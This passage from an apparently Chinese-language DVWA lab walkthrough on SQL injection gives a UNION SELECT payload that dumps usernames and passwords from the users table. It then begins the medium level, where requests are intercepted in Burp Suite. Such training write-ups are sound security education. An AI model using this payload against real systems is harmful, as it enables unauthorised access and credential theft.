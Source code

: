 ![image-20230805100039290](./DVWA.assets/image-20230805100039290.png)

**(7)获取数据**  

```sql
1' union select user,password from users # 
```

<img src="./DVWA.assets/image-20230805100123847.png" alt="image-20230805100123847" style="zoom:33%;" />

### medium级别

(1)判断注入类型   我们可以看到无法输入数字，所以我们进行抓包在bp中进行SQL注入

![image-20230729124006981](./DVWA.assets/image-20230729123744051.png)
